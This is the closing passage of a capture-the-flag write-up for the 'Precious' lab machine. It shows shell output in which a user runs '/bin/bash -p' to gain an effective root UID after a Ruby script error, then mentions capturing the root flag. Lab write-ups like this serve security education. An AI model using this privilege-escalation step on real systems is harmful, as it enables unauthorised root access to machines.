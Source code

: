 ```text
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
```

Nice that worked! 

We can now grab the final flag:

![root_flag.png](../assets/precious_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------

